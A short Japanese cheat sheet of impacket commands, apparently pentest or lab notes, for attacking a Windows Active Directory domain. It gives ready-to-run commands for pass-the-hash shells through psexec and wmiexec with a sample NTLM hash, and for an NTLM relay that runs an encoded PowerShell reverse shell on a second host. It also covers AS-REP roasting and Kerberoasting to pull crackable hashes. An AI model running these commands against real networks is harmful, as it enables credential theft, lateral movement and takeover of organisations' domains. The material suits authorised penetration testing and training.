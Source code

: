 # impacket

## コマンド集

1. PtHを使って管理者権限のシェルを取る。この時、NTLMハッシュの形式は**LMハッシュ:NTハッシュ**の形式になっている。  
NTLMハッシュのみを使用する場合は、LMハッシュ部分は0で埋めておく。
```
impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
```

2. wmiexecを使ってPtWを行う
```
impacket-wmiexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
``

3. Net-NTLMv2 relay攻撃を行うため、中継元のWindows端末からdirなどでSMB接続をこの端末にさせ、コマンドを192.168.201.212という横展開先に送り付ける。  
これで、192.168.201.212上でPowerShellのリバースシェルコマンドを実行してシェルを取れる。-encの後ろはb64
```
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.201.212 -c "powershell -enc JABjAGwAaQBlAG..."
```

4. AS-REP Roastingの攻撃をADに対して実行する。ここで出力されたユーザ名はKerberos preauthenticationが無効になっていることを示し、AS-REQ Roasting攻撃に脆弱な可能性があることを示す。  
-dc-ip => DCのIPアドレスを指定  
-outputfile => AS-REPハッシュがhashcatの形式で保存される出力ファイルの名前を入力する。  
-request => TGTを要求する  
domain/user => 認証のターゲットにするユーザとドメイン名
```
impacket-GetNPUsers -dc-ip 192.168.50.70 -request -outputfile hashes.asreproast corp.com/pete
```

5. Kerberoastingを実行するために、TGSを取得してhashcatで解析できる形でサービスチケットのハッシュを出力する。
```
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
```